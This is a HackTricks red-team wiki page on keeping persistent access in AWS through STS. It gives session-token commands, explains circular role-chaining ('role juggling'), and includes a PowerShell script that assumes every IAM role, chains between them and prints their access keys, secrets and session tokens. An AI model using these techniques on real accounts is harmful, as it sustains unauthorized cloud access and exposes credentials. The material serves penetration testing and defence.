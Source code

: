 # AWS - STS Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

For more information access:

{% content-ref url="../aws-services/aws-sts-enum.md" %}
[aws-sts-enum.md](../aws-services/aws-sts-enum.md)
{% endcontent-ref %}

### Assume role token

Temporary tokens cannot be listed, so maintaining an active temporary token is a way to maintain persistence.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# With MFA
aws sts get-session-token \
    --serial-number &#x3C;mfa-device-name> \
    --token-code &#x3C;code-from-token>

# Hardware device name is usually the number from the back of the device, such as GAHT12345678
<strong># SMS device name is the ARN in AWS, such as arn:aws:iam::123456789012:sms-mfa/username
</strong># Vritual device name is the ARN in AWS, such as arn:aws:iam::123456789012:mfa/username
</code></pre>

### Role Chain Juggling

[**Role chaining is an acknowledged AWS feature**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id\_roles\_terms-and-concepts.html#Role%20chaining), often utilized for maintaining stealth persistence. It involves the ability to **assume a role which then assumes another**, potentially reverting to the initial role in a **cyclical manner**. Each time a role is assumed, the credentials' expiration field is refreshed. Consequently, if two roles are configured to mutually assume each other, this setup allows for the perpetual renewal of credentials.

You can use this [**tool**](https://github.com/hotnops/AWSRoleJuggler/) to keep the role chaining going:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

{% hint style="danger" %}
Note that the [find\_circular\_trust.py](https://github.com/hotnops/AWSRoleJuggler/blob/master/find\_circular\_trust.py) script from that Github repository doesn't find all the ways a role chain can be configured.
{% endhint %}

<details>

<summary>Code to perform Role Juggling from PowerShell</summary>

```powershell
# PowerShell script to check for role juggling possibilities using AWS CLI

# Check for AWS CLI installation
if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) {
    Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'."
    exit
}

# Function to list IAM roles
function List-IAMRoles {
    aws iam list-roles --query "Roles[*].{RoleName:RoleName, Arn:Arn}" --output json
}

# Initialize error count
$errorCount = 0

# List all roles
$roles = List-IAMRoles | ConvertFrom-Json

# Attempt to assume each role
foreach ($role in $roles) {
    $sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
    try {
        $credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
        if ($credentials) {
            Write-Host "Successfully assumed role: $($role.RoleName)"
            Write-Host "Access Key: $($credentials.AccessKeyId)"
            Write-Host "Secret Access Key: $($credentials.SecretAccessKey)"
            Write-Host "Session Token: $($credentials.SessionToken)"
            Write-Host "Expiration: $($credentials.Expiration)"

            # Set temporary credentials to assume the next role
            $env:AWS_ACCESS_KEY_ID = $credentials.AccessKeyId
            $env:AWS_SECRET_ACCESS_KEY = $credentials.SecretAccessKey
            $env:AWS_SESSION_TOKEN = $credentials.SessionToken

            # Try to assume another role using the temporary credentials
            foreach ($nextRole in $roles) {
                if ($nextRole.Arn -ne $role.Arn) {
                    $nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
                    try {
                        $nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
                        if ($nextCredentials) {
                            Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)"
                            Write-Host "Access Key: $($nextCredentials.AccessKeyId)"
                            Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)"
                            Write-Host "Session Token: $($nextCredentials.SessionToken)"
                            Write-Host "Expiration: $($nextCredentials.Expiration)"
                        }
                    } catch {
                        $errorCount++
                    }
                }
            }

            # Reset environment variables
            Remove-Item Env:\AWS_ACCESS_KEY_ID
            Remove-Item Env:\AWS_SECRET_ACCESS_KEY
            Remove-Item Env:\AWS_SESSION_TOKEN
        } else {
            $errorCount++
        }
    } catch {
        $errorCount++
    }
}

# Output the number of errors if any
if ($errorCount -gt 0) {
    Write-Host "$errorCount error(s) occurred during role assumption attempts."
} else {
    Write-Host "No errors occurred. All roles checked successfully."
}

Write-Host "Role juggling check complete."
```

</details>



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
